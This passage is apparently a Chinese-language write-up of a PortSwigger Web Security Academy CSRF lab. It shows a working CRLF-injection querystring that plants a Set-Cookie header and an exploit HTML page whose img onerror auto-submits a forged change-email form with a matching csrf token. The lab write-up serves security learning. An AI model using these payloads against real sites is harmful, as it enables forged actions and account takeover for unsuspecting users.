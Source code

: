 這題我覺得有幾個難點

1. 要找到首頁的搜尋功能跟 `Set-Cookie` 的關聯性（雖然題目的 Hint 已經有透露）
2. 要知道 CRLF Injection 的概念，並且能實際運用（真的很慶幸我有先學過 CRLF Injection，不然我根本想不到有這個方法）
3. 利用 `<img>` 發起請求，並且在 `onerror` 才執行 `document.forms[0].submit()`

## Lab: CSRF where token is duplicated in cookie

| Dimension | Description                                                                                                      |
| --------- | ---------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-token-validation#csrf-token-is-simply-duplicated-in-a-cookie |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie              |

這題跟上面一樣，有 CRLF Injection 的漏洞，先嘗試以下 querystring

```js
encodeURIComponent(
  `123\r\nSet-Cookie: csrf=helloworld; Secure; HttpOnly; SameSite=None`,
);
```

在 exploit-server 的 response body 設定以下 html

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    <img
      src="https://0ace006c04b8a318804294bc00ef0054.web-security-academy.net/?search=123%0D%0ASet-Cookie%3A%20csrf%3Dhelloworld%3B%20Secure%3B%20HttpOnly%3B%20SameSite%3DNone"
      onerror="document.forms[0].submit()"
    />
    <form
      action="https://0ace006c04b8a318804294bc00ef0054.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label for="email">Email:</label>
      <input
        type="email"
        id="email"
        name="email"
        value="wiener6@normal-user.net"
        required
      />
      <input type="hidden" name="csrf" value="helloworld" required />
      <button type="submit">Submit</button>
    </form>
  </body>
</html>
```
